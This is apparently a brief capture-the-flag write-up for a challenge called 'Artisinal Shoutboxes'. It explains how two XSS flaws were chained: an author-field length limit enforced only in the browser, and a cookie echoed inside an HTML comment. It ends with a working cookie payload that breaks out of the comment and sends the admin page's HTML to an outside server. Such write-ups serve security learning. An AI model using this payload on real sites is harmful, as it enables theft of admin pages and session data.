 # Artisinal Shoutboxes (cloud, 200pts)

 * We could upload message with an author to a subdomain.
 * Admin viewed each sent message
 * There were 2 xss
 * One was in the author field, it was limited to 10 chars but that was only enforced on user side
 * Second was on `admin.combined.space`, cookie was being printed in a comment
 * Use first xss to setup second xss(using a cookie) and redirect the admin to `admin.combined.space`
 * Set the cookie prefix to `-->` to bypass the comment and then send the whole document to yourself on a different server.
 * Final cookie: `trolled=--><script>window.location='http://nazywam.host/'+document.documentElement.innerHTML</script><!--;domain=.combined.space;path=/` 

